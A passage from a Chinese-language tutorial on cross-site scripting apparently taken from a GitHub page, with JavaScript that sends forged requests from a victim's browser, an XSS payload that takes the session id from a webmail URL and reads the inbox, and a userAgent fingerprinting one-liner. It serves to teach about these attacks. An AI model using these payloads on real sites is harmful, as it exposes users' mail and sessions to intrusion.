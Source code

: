```javascript
ajax.send(postStr);
ajax.onreadystatechange = function(){
    if(ajax.readyState==4 && ajax.status==200){
        alert("Done.");
    }
}
```
上面这两个脚本，都可以发送POST请求。

攻击者通过构造这些请求，即便在无法获取cookie时，也可以直接操作用户浏览器执行某些动作。

但如果每个操作都需要用户输入验证码，或显示要求用户确认，这种隐蔽的攻击就会失效。但攻击者可以构造隐藏请求，将验证码等信息传递到远程服务器，然后再将内容回填到当前脚本，然后再利用已知的验证码发起请求。

#### 示例
例如：某个邮箱在用户登录后可以 `http://m57.mail.com/cgi-bin/mail_list?folderid=1&page=0&s=inbox&sid=6adjkslekslfjDyssdf` 访问邮箱。其中的sid值可能是用户id的某种加密值。

攻击者可以构建XSS payload，获取sid值，使用XMLHttpRequest请求上述url，获取上述操做结果。
```javascript
if(top.window.location.href.indexOf("sid=")>0){
    var sid=top.window.location.href.substr(top.window.location.href.indexOf("sid=")+4,24);//24为密文长度
}

var url="http://" + top.window.location.host + "/cgi-bin/mail_list?folderid=1&page=0&s=inbox&sid=" + sid;

var ajax = null;
if(windows.XMLHttpRequest){
    ajax = new XMLHttpRequest();
}
else if(windows.ActiveXObject){
    ajax = new ActiveXObject("Microsoft.XMLHTTP");
}
else{
    return;
}
ajax.open("GET",url,true);
ajax.send(null);
ajax.onreadystatechange = function(){
    if(ajax.readyState==4 && ajax.status==200){
        alert(ajax.responseText);
        //document.write(ajax.responseText)
    }
}
```
上述代码执行成功后，可在alert弹窗中看到邮件内容。

### 识别浏览器

`<script>alert(navigator.userAgent);</script>`

### 识别用户安装的软件
